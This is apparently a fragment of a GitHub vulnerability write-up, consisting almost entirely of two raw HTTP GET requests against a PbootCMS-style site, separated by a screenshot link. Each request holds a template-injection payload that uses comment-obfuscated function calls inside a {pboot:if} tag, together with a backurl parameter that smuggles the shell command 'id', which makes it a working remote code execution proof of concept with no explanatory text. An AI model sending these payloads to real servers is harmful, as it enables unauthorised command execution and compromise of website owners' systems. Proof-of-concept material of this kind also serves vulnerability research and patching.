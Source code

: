 ```http
GET /index.php/?suanve=}{pboot:if((get_lg/*suanve-*/())/**/(get_backurl/*suanve-*/()))}123321suanve{/pboot:if}&backurl=;id HTTP/1.1
Host: localhost:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: XDEBUG_SESSIO1N=17340; lg=system; PbootSystem=8g1gcjum9vbcbqeh6epc5hlloa
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Content-Length: 2



```

![image-20211122030306637](https://github.com/suanve/files/blob/main/image-20211122030306637.png?raw=true)



```http
GET /?member/login/?suanve=}{pboot:if((get_lg/*suanve-*/())/**/(get_backurl/*suanve-*/()))}123321suanve{/pboot:if}&backurl=;id HTTP/1.1
Host: localhost:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: XDEBUG_SESSIO1N=17340; lg=system; PbootSystem=8g1gcjum9vbcbqeh6epc5hlloa
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Content-Length: 2



```
